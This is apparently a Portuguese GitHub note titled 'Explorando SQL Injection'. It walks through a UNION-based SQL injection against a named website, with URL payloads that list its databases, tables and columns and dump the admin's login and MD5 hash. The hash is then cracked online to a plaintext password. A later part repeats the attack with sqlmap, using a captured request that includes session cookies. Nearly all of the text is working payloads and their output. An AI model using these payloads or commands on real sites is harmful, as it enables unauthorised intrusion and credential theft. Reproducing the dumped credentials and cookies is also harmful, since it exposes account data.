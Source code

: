 # Explorando SQL Injection

## ORDER BY
- possui 3 colunas

## UNION ALL SELECT
### Nome do banco de dados
- ```http://www.bancocn.com/cat.php?id=-1 union select 1, 2, database()```

- ```schema_name from information_schema.schemata```

- ```http://www.bancocn.com/cat.php?id=-1%20union%20select%201,%202,%20group_concat(schema_name)%20from%20information_schema.schemata```

    - RESPOSTA: information_schema,bancocn
    
### Nome das tabelas
- ```http://www.bancocn.com/cat.php?id=-1%20union%20select%201,%202,%20group_concat(table_name)%20from%20information_schema.tables%20where%20table_schema=%22bancocn%22```

    - RESPOSTA: categories,pictures,stats,users
    
### Nome das colunas
- ```http://www.bancocn.com/cat.php?id=-1%20union%20select%201,%202,%20group_concat(column_name)%20from%20information_schema.columns%20where%20table_schema=%22bancocn%22%20and%20table_name=%22users%22```

    - RESPOSTA: id,login,password

### Dados de login
    http://www.bancocn.com/cat.php?id=-1%20union%20select%201,%202,%20group_concat(id,%22%20:%20%22,%20login,%22%20:%20%22,%20password)%20from%20bancocn.users

    Resposta: 1 : admin : 7b71be0e85318117d2e514ce2a2e222c

    id = 1
    login = admin
    password = 7b71be0e85318117d2e514ce2a2e222c

    usar o https://hashkiller.co.uk/md5-decrypter.aspx para descobrir a senha
    password: 7b71be0e85318117d2e514ce2a2e222c MD5 : senhafoda

########################################################################################################################
GET cat.php?id=3 HTTP/1.1
Host: www.bancocn.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:55.0) Gecko/20100101 Firefox/55.0
Cookie: __cfduid=dd2f7c8788ca26fb6567db34a9bb12d5a1503287015; cf_clearance=803efaa5872012739bbc3947e0c4e2d153ea36c4-1503290688-3600; PHPSESSID=7905qrdhof3gvlchcmp5l0umh6; cf_use_ob=0
Connection: keep-alive
########################################################################################################################

TERMINAL: 

    :: Saber o nome dos bancos de dados

        nano header.txt
        sqlmap -r header.txt --dbs --dbms=mysql

        Resposta:
            available databases [2]:                                                       
            [*] bancocn
            [*] information_schema


    :: Saber o nome das tabelas:
    
        sqlmap -r header.txt --dbs --dbms=mysql -D bancocn --tables

        Resposta:
            Database: bancocn                                                                                      
            [4 tables]
            +------------+
            | categories |
            | pictures   |
            | stats      |
            | users      |
            +------------+
    :: Saber os campos de uma tabela

        sqlmap -r header.txt --dbs --dbms=mysql -D bancocn -T users --columns

        Resposta:
            Database: bancocn                                                                                      
            Table: users
            [3 columns]
            +----------+--------------+
            | Column   | Type         |
            +----------+--------------+
            | id       | mediumint(9) |
            | login    | varchar(50)  |
            | password | varchar(50)  |
            +----------+--------------+
    
    :: Acessar a informações da tabela

        sqlmap -r header.txt --dbs --dbms=mysql -D bancocn -T users -C login,password --dump 

        Resposta:
            Database: bancocn
            Table: users
            [1 entry]
            +-------+----------------------------------+
            | login | password                         |
            +-------+----------------------------------+
            | admin | 7b71be0e85318117d2e514ce2a2e222c |
            +-------+----------------------------------+
